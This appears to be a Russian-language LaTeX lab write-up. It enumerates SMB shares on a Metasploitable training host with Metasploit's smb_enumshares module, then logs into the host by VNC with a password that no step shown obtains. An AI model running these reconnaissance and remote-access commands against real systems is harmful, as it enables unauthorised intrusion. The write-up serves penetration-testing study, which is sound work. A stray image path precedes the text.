 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\newpage
\section{Получить список директорий в общем доступе по протоколу SMB}

\begin{enumerate}
\item Подключаемся к нужному модулю:
\begin{lstlisting}
msf > use auxiliary/scanner/smb/smb_enumshares
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста и количество потоков для работы
\begin{lstlisting}
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.1.214
msf auxiliary(smb_enumshares) > set THREADS 8
\end{lstlisting}
\medskip

\item Запускаем модуль
\begin{lstlisting}
msf auxiliary(smb_enumshares) > run

[+] 192.168.1.214:139 - print$ - (DISK) Printer Drivers
[+] 192.168.1.214:139 - tmp - (DISK) oh noes!
[+] 192.168.1.214:139 - opt - (DISK) 
[+] 192.168.1.214:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.1.214:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
\medskip

\item Получаем удаленный доступ, используя vnc клиент и полученный пароль.
\begin{lstlisting}
root@kali:~# xtightvncviewer 192.168.1.214
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
\end{lstlisting}
\end{enumerate}



\newpage
\end{document}
